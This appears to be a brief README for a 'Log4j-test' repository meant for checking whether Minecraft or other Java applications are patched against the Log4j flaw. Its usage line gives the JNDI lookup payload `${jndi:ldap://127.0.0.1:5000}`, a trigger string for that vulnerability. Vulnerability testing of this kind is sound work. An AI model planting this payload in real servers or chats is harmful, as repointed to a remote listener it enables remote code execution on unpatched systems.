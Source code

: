 # Log4j-test
Don't use this maliciously, Just use this for testing Specifically for testing Minecraft, but this will probably work on other java applications. Use this to check if you're all patched.

# Usage:
Just type `${jndi:ldap://127.0.0.1:5000}` and Done!
